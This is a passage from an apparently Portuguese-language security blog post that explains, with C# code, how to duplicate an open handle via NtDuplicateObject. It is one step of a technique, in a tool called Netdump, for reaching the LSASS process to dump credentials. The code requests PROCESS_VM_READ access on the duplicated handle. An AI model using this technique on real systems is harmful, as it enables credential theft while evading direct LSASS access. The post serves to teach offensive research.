 ![Desktop View](https://blackmetal2000.github.io/assets/img/open-handles/J4yNvkg.png)

## NtDuplicateObject⁸

>`NtDuplicateObject⁸`: API utilizada para duplicar um handle alvo.
{: .prompt-info }

Com os identificadores dos handles (PID e AccessRights) em mãos, o próximo passo é duplicá-los para, posteriormente, interagirmos com eles. O processo de duplicação é bem simples, ainda mais quando se tem uma API própria para isso.

```csharp
[Flags]
public enum DUPLICATE_OPTION_FLAGS : uint
{
	CLOSE_SOURCE = 0x00000001,
	SAME_ACCESS = 0x00000002, // herda os privilégios de acessos do handle pai ao handle clonado
	SAME_ATTRIBUTES = 0x00000004 // herda os atributos do handle pai ao handle clonado

}

[DllImport("ntdll.dll")]
public static extern NTSTATUS NtDuplicateObject(
	IntPtr SourceProcessHandle,
	IntPtr SourceHandle,
	IntPtr TargetProcessHandle,
	out IntPtr TargetHandle,
	uint DesiredAccess,
	bool InheritHandle,
	DUPLICATE_OPTION_FLAGS Options
);
```

Para duplicar o handle, é necessário um privilégio essencial: `PROCESS_DUP_HANDLE⁹`. Feito isso, após a abertura de um novo handle ao processo alvo (o que foi destacado no Process Hacker), é realizada a chamada da API. Ela terá como resultado um novo handle, referenciado como `hDuplicate`, que será o duplicado. Mas, não se enganem, este handle não é necessariamente o do LSASS. :P

```csharp
uint acessOriginal = PROCESS_DUP_HANDLE; // setando privilégios de acesso
uint acessDuplicate = PROCESS_QUERY_INFORMATION | PROCESS_VM_READ; // setando privilégios de acesso

IntPtr hRemoteProcess = Netdump.Invokes.OpenProcess((uint)acessOriginal, false, 6020); // abrindo um handle pro processo que contém o handle do LSASS
if (hRemoteProcess == IntPtr.Zero) { throw new Exception($"[-] OpenProcess: {Marshal.GetLastWin32Error()}"); }

IntPtr hObject = new IntPtr(handleStruct.HandleValue); // o handleStruct.HandleValue é proveniente do SYSTEM_HANDLE_TABLE_ENTRY_INFO 

Netdump.Tables.NTSTATUS result = Netdump.Invokes.NtDuplicateObject(
	hRemoteProcess, // handle do processo alvo
	hObject, // objeto do handle que será duplicado (serve como um identificador, é o HandleValue)
	new IntPtr(-1), // criação de um pseudo handle
	out IntPtr hDuplicate, // handle duplicado
	(uint)acessDuplicate, // privilégios de acesso do handle duplicado
	false, // herdar handles?
	Netdump.Tables.DUPLICATE_OPTION_FLAGS.SAME_ACCESS // mesmo nível de acesso do handle original
);

if (result == Netdump.Tables.NTSTATUS.STATUS_SUCCESS && hDuplicate != IntPtr.Zero)
{
	Console.WriteLine($"Handle duplicado! {hDuplicate}");
}

```